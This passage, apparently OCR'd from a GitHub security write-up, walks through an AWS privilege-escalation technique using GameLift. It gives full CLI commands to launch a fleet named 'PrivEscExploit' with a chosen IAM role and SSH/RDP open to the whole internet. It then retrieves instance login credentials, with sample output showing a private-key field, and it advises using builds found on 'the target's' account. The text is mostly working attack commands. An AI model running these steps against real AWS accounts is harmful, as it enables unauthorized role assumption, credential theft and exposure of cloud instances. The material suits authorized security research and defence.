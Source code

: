 First, create a fleet with a Gamelift role you want to obtain and with opened SSH and RDP (for `Windows` builds) ports using  `--ec2-inbound-permissions` option.

You can use either existing builds or scripts, but the example below uses a script to run a fleet:

```bash
export SCRIPT_ID=script-1111aaaa-22bb-33cc-44dd-5555eeee66ff
aws gamelift create-fleet \
    --name PrivEscExploit \
    --description 'PrivEsc demonstration' \
    --script-id $SCRIPT_ID \
    --ec2-instance-type c4.large \
    --fleet-type ON_DEMAND \
		--ec2-inbound-permissions '[{"FromPort":22,"ToPort": 22,"IpRange": "0.0.0.0/0", "Protocol": "TCP"}, {"FromPort":3389,"ToPort": 3389,"IpRange": "0.0.0.0/0", "Protocol": "TCP"}]' \
		--runtime-configuration 'ServerProcesses=[{LaunchPath=/LaunchPath=/local/game/init.js,ConcurrentExecutions=1}]' \
    --instance-role-arn $AWS_ROLE_ARN
```

Fleets that are created with scripts successfully activate even though `runtime-configuration` parameters are invalid.

If there are no scripts in the target’s AWS account that you can use to run a fleet and you are forced to use custom builds, you should try to find a `runtime-configuration` parameters for a build you are trying to run. If you are not able to locate any, you can try to run it without `—-runtime-configuration` option and see whether it has been activated successfully with default parameters.

You can try to find and use a sample game build provided by Amazon on the target AWS account. Its name is `SampleCustomGameFleet` by default and it has next `runtime-configuration` parameters:

```jsx
--runtime-configuration 'ServerProcesses=[{LaunchPath=/LaunchPath=C:\game\Bin64vc141.Release.Dedicated\MultiplayerSampleLauncher_Server.exe,Parameters=+sv_port 33435 +gamelift_start_server +gm_netsec_enable 0,ConcurrentExecutions=1}]' 
```

Then after successful fleet activation, obtain credentials via `get-instance-access`:

```bash
export FLEET_ID=fleet-d478517d-10df-4923-892f-d765cd6ec54e 
export INSTANCE_ID=i-09f1b3e73d700767
aws gamelift get-instance-access --fleet-id $FLEET_ID --instance-id $INSTANCE_ID
```

Example of the command output with credentials (username and SSH private key for Linux):

```json
{
    "InstanceAccess": {
        "FleetId": "fleet-d478517d-10df-4923-892f-d765cd",
        "InstanceId": "i-09f1b3e73d700767",
        "IpAddress": "3.81.52.210",
        "OperatingSystem": "AMAZON_LINUX_2",
        "Credentials": {
            "UserName": "gl-user-remote",
            "Secret": "-----BEGIN RSA PRIVATE KEY-----\n ... n-----END RSA PRIVATE KEY-----\n"
        }
    }
}
```
